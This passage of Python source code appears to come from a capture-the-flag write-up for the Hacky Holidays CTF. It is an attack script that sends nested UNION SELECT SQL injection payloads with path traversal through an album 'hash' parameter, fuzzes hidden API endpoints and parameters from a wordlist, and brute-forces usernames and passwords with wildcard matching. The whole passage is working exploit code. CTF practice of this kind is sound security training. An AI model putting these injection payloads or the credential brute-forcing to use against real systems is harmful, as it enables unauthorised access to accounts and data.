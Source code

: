 ```py
    if 'Invalid content type' in res2.text:
        return [word, param]

    return None

def fuzz_api(wordlist):
    global pool, retry
    pool = Pool(POOL_WORKERS)

    base = 'https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=%27%20UNION%20SELECT%20%22%27%20UNION%20SELECT%201,1,%27../api/FUZZ%27%20--%20-%22,1,1--%20-'

    print "[+] Discovered end-point(s): "
    with open(wordlist, 'r') as file:
        words = file.readlines()
        words = [word.strip() for word in words]
        for word in words:
            pool.apply_async(multi_request_api, [base, word], callback=log_result)

    while len(retry) > 0:
        print "[+] Retrying failed words..."
        for word in retry:
            pool.apply_async(multi_request_api, [base, word], callback=log_result)
        retry = []

    pool.close()
    pool.join()

def fuzz_param(wordlist):
    global pool, retry
    pool = Pool(POOL_WORKERS)

    base = 'https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=%27%20UNION%20SELECT%20%22%27%20UNION%20SELECT%201,1,%27../api/user%3FFUZZ%3Da%27%20--%20-%22,1,1--%20-'

    print "[+] Discovered parameters(s): "
    with open(wordlist, 'r') as file:
        words = file.readlines()
        words = [word.strip() for word in words]
        for word in words:
            pool.apply_async(multi_request_api, [base, word], callback=log_result)

    while len(retry) > 0:
        print "[+] Retrying failed words..."
        for word in retry:
            pool.apply_async(multi_request_api, [base, word], callback=log_result)
        retry = []

    pool.close()
    pool.join()

def fuzz_creds(param, found_username):
    global pool, username, password
    pool = Pool(POOL_WORKERS)

    # Guessing Username
    base1 = 'https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=%27%20UNION%20SELECT%20%22%27%20UNION%20SELECT%201,1,%27../api/user%3Fusername%3DFUZZ%25%27%20--%20-%22,1,1--%20-'

    # Guessing Password given Valid Username
    base2 = 'https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=%27%20UNION%20SELECT%20%22%27%20UNION%20SELECT%201,1,%27../api/user%3Fusername%3D{}%26password%3DFUZZ%25%27%20--%20-%22,1,1--%20-'.format(found_username)
```